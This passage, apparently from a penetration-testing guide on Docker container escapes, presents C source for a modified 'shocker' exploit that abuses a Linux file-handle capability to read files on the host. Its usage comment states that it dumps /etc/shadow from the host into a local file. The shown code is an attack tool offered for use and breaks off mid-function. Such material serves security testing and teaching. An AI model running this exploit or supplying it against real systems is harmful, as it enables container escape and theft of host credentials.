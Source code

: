 The original exploit that abuse this permissions to read files from the host can be found here: [http://stealth.openwall.net/xSports/shocker.c](http://stealth.openwall.net/xSports/shocker.c), the following is a **modified version that allows you to indicate the file you want to read as first argument and dump it in a file.**

```c
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <errno.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <dirent.h>
#include <stdint.h>

// gcc shocker.c -o shocker
// ./socker /etc/shadow shadow #Read /etc/shadow from host and save result in shadow file in current dir

struct my_file_handle {
    unsigned int handle_bytes;
    int handle_type;
    unsigned char f_handle[8];
};

void die(const char *msg)
{
    perror(msg);
    exit(errno);
}

void dump_handle(const struct my_file_handle *h)
{
    fprintf(stderr,"[*] #=%d, %d, char nh[] = {", h->handle_bytes,
    h->handle_type);
    for (int i = 0; i < h->handle_bytes; ++i) {
        fprintf(stderr,"0x%02x", h->f_handle[i]);
        if ((i + 1) % 20 == 0)
        fprintf(stderr,"\n");
        if (i < h->handle_bytes - 1)
        fprintf(stderr,", ");
    }
    fprintf(stderr,"};\n");
}

int find_handle(int bfd, const char *path, const struct my_file_handle *ih, struct my_file_handle
*oh)
{
    int fd;
    uint32_t ino = 0;
    struct my_file_handle outh = {
    .handle_bytes = 8,
    .handle_type = 1
    };
    DIR *dir = NULL;
    struct dirent *de = NULL;
    path = strchr(path, '/');
    // recursion stops if path has been resolved
    if (!path) {
        memcpy(oh->f_handle, ih->f_handle, sizeof(oh->f_handle));
        oh->handle_type = 1;
        oh->handle_bytes = 8;
```